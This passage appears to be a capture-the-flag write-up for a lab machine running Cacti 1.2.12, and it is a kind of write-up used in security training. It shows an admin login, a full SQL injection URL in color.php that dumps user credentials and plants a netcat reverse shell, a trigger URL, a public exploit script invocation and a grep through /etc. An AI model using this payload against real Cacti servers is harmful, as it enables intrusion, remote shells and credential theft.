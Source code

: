 We connect and see there is a login page
![Pasted image 20210717003613.png](/assets/Pasted%20image%2020210717003613.png)



Let's try the creds of the admin
`admin: BestAdministrator@2020!`

We see there is Cacti version `Version 1.2.12`

We find in exploitDB a [SQLi for version 1.2.12](https://www.exploit-db.com/exploits/49810)  where there is SQL injection issue in color.php in Cacti 1.2.12 that allows an admin to inject SQL via the filter parameter. This can lead to remote command execution because the product accepts stacked queries. ^150e6a

let's setup netcat listener and here is our payload and URL exploit to trigger SQLi and RCE to get a shell.

```bash
http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1%27)+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value=%27rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2%3E%261|nc+10.10.10.103+4444+%3E/tmp/f;%27+where+name=%27path_php_binary%27;--+-
```
And then (ignore the download), requets again this URL
```bash
http://cacti-admin.monitors.htb/cacti/host.php?action=reindex
```

If it doesn't work you can just execute the python script of the exploit in exploitDB

```bash
script.py -t http://cacti-admin .monitors.htb -u admin -p BestAdministrator@2020! --lhost <IP> --lport 4444
```

We grep on "marcus" to see if there is any service related to him.
`grep "marcus" /etc -R 2 >/dev/null`
* **-R**: recursive
* /etc : for config and static files
	
![Pasted image 20210717014035.png](/assets/Pasted%20image%2020210717014035.png)
